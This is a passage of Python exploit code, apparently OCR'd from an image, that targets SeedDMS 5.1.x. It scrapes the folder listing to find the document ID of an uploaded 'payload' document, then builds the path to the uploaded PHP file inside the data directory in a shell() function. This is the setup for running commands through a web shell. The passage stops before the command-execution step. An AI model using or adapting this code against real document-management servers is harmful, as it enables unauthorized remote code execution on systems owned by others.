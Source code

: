         try:
            rsl = sessionObj.get(url)

            if(rsl.status_code == 200):
                #searching & extracting document id storing payload
                soup = BeautifulSoup(rsl.text,'html.parser')
                viewFolderTables = soup.findAll("table", {"id": "viewfolder-table"})

                soup = BeautifulSoup(str(viewFolderTables[0]),'html.parser')
                rowsDoc = soup.findAll("tr", {"class": "table-row-document"})

                for i in range(len(rowsDoc)):
                    soup = BeautifulSoup(str(rowsDoc[i]),'html.parser')
                    tdExtracted = soup.findAll("td")

                    foundDocName = tdExtracted[1].contents[0].contents[0]

                    #when document name matched uploaded document name
                    if(foundDocName == docName):
                        print("[*] Found Payload Document Name. Extracting Document ID...")
                        tmp = tdExtracted[1].contents[0].attrs['href'].split('?')
                        docID = tmp[1].replace("&showtree=1", "").replace('documentid=', '')

                        print("[*] Document ID: " + docID)

                        return sessionObj, docID

                #after loops & still unable to find matched uploaded Document Name
                print("[!] Unable to find document ID.")
                sys.exit(0)

            else:
                print("[!] Something went wrong.")
                print("Status Code: %d" % (rsl.status_code))
                sys.exit(0)

        except Exception as e:
            print("[!] Something Went Wrong!")
            print(e)
            sys.exit(0)

        return sessionObj

    def shell(sessionObj, url, docID):
        #remove the directory /seeddms-5.1.x
        splitUrl = url.split('/')
        remLastDir = splitUrl[:-1]

        url = ""
        #recontruct url
        for text in remLastDir:
            url += text + "/"

        #path storing uploaded php code
        path = "/data/1048576/%s/1.php" % docID
        url += path

        #checking does the uploaded php exists?
        rsl = sessionObj.get(url)
